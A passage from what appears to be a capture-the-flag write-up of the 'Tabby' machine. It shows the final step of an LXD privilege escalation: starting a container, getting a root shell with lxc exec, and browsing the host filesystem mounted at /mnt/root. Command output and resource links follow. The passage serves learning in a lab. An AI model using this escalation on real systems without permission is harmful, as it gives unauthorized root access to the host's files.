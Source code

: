 ### Step 5- Dropping the shell
The created container was then started as ```lxc start ignite```, following which the session was dropped onto the 
container as a **root** with *lxc exec* as ```lxc exec ignite /bin/sh```. This would result in a root shell within
the container as shown on the section given below.
```shell 
ash@tabby:~$ lxc start ignite 
lxc start ignite 
ash@tabby:~$ lxc exec ignite /bin/sh 
lxc exec ignite /bin/sh 
~ # id       
id 
uid=0(root) gid=0(root)
```

# Post Root
Now that a root shell was gained, the entire target can, now, be enumerated by navigating to */mnt/root*. If you were to 
check the IP information through the shell, you could find that the root shell gained was within the context of the 
LXD container.
```shell 
/mnt/root/root # ip a       
ip a 
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN qlen 1000 
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00 
    inet 127.0.0.1/8 scope host lo 
       valid_lft forever preferred_lft forever 
    inet6 ::1/128 scope host  
       valid_lft forever preferred_lft forever 
4: eth0@if5: <BROADCAST,MULTICAST,UP,LOWER_UP,M-DOWN> mtu 1500 qdisc noqueue state UP qlen 1000 
    link/ether 00:16:3e:26:3c:36 brd ff:ff:ff:ff:ff:ff 
    inet 10.125.107.205/24 brd 10.125.107.255 scope global eth0 
       valid_lft forever preferred_lft forever 
    inet6 fd42:7448:c0ad:d9ec:216:3eff:fe26:3c36/64 scope global dynamic  
       valid_lft 3480sec preferred_lft 3480sec 
    inet6 fe80::216:3eff:fe26:3c36/64 scope link  
       valid_lft forever preferred_lft forever 
```

# Resources
[^f1]:[Linux Containers](https://linuxcontainers.org/lxd/)
[^f2]:[LXD Documentation CLI --> Access Control](https://linuxcontainers.org/lxd/getting-started-cli/)
[^f3]:[Linux Privilege Escalation via LXD & Hijacked UNIX Socket Credentials](https://shenaniganslabs.io/2019/05/21/LXD-LPE.html)
[^f4]:[User can use lxc hooks for privilege escalation on lxd host](https://github.com/lxc/lxd/issues/2003)
[^f5]:[Privilege Escalation via LXD](https://reboare.github.io/lxd/lxd-escape.html)
[^f6]:[LXD Alpine Image Builder](https://github.com/saghul/lxd-alpine-builder)